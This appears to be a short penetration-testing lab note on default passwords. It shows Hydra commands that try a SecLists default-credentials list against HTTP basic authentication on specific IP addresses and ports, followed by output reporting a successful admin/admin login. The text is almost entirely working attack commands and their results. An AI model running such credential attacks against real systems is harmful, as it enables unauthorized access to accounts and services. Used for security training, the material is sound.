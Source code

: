 # Default Passwords

## Hydra
apt install hydra -y
hydra -C /opt/useful/SecLists/Passwords/Default-Credentials/ftp-betterdefaultpasslist.txt 178.211.23.155 -s 31099 http-get /

## LAB

83.136.250.104:48522

hydra -C /opt/useful/SecLists/Passwords/Default-Credentials/ftp-betterdefaultpasslist.txt 83.136.250.104 -s 48522 http-get /

[48522][http-get] host: 83.136.250.104   login: admin   password: admin
